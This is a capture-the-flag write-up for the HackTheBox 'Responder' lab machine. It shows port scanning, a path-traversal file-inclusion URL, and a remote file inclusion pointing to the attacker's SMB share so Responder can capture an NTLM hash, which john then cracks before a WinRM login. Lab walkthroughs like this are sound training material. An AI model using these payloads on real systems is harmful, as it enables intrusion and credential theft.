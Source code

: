 ```yaml
---
title: HTB Responder
date: 2022-08-04 01:55:00 +0800
categories: [HTB, Starting Point]
tags: [SAMBA, Apache, WinRM, Enumeration]
pin: false
---
```


![responder-htb](https://www.hackthebox.com/storage/avatars/0348ed41851064f497d155c2a6af359a.png)

## Scanning and enumeration

Now it's time to start the active scanning.

As always, we define our TARGET and hosts file of our machine to facilitate the process.

```console
TARGET=10.129.5.42
echo "10.129.5.42 responder.htb" | sudo tee -a /etc/hosts
```

We launch a single `TCMP` probe to check ping.

```console
ping -c 1 $TARGET		# => Ping is working
```

We can see that it's a Windows system.

```console
PING 10.129.5.42 (10.129.5.42) 56(84) bytes of data.
64 bytes from 10.129.5.42: icmp_seq=1 ttl=127 time=55.0 ms

--- 10.129.5.42 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 54.962/54.962/54.962/0.000 ms
```

### NMAP

To scan the `target` to find open ports and possible vulnerabilities we use `nmap`.

First, simple `TCP` scan without `DNS` resolution and ping discovery, to all the ports and with the version detection. (I applied here `--min-rate` as the scan was very slow and we don't care about HTB machines...)

```console
nmap -n -Pn -sV -p- --min-rate 5000 $TARGET -vvv -oG allPorts
```

We can see that it has the following ports open:

```console
PORT     STATE SERVICE    REASON  VERSION
80/tcp   open  http       syn-ack Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
5985/tcp open  http       syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
7680/tcp open  pando-pub? syn-ack
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We also start a UDP check.

```console
sudo nmap -n -Pn -sVC -sU -p- --min-rate 5000 $TARGET -vvv -oG allPortsUDP
```

Nothing here of interest.

We pass the scripts.

```console
nmap -n -Pn -sVC -oN targeted -vvv -p80,5985,7680 $TARGET
```


### Website in 80

```console
whatweb http://responder.htb
http://responder.htb [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTTPServer[Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1], IP[10.129.5.42], Meta-Refresh-Redirect[http://unika.htb/], OpenSSL[1.1.1m], PHP[8.1.1], X-Powered-By[PHP/8.1.1]
ERROR Opening: http://unika.htb/ - no address for unika.htb

```

We see that it is redirecting to _<http://unika.htb>_ which we might need to also include in the hosts file after inspecting.

```console
echo "10.129.5.42 unika.htb" | sudo tee -a /etc/hosts
```

![unika-htb](/assets/img/posts/unika-htb.png)

We can inspect the source code of the site.

By inspecting the site we can see that we have a language selector that is loading the language file using a `page` parameter.

We can try to see if we are capable of launching a `LFI`.

_<http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts>_

It works. If we see an error message from php include, it can also provide information that the server is vulnerable to file inclusion. In this case we are using a local file inclusion, the idea is to link a remote file inclusion with a Samba relay attack.

We will start `Responder.py` that in kali is located in `/usr/share/responder`. The interface used is the `VPN` tunnel from `HTB`. 

```console
sudo Responder.py -I tun0
```

Then, we will call in the browser the remote file inclusion asking for a file in our server.

_<http://unika.htb/index.php?page=//10.10.14.221/hello>_

We will see in the responder that we intercepted the NTLM hash from the user. We just need to crack it with `john` and see if the user is using a common password.

```console
john -w=/usr/share/wordlists/rockyou.txt --format=netntlmv2 hash.txt
```

Please note that we put `-w*=*/usr/share`, it's very important to include the `=`. Sometimes we are use to put just the flag and we see strange errors from `john` about the `UTF-8`.

## Gaining access

Now that we have the password we are able to start a session in the PC. You can use `evil-winrm` and see the flag.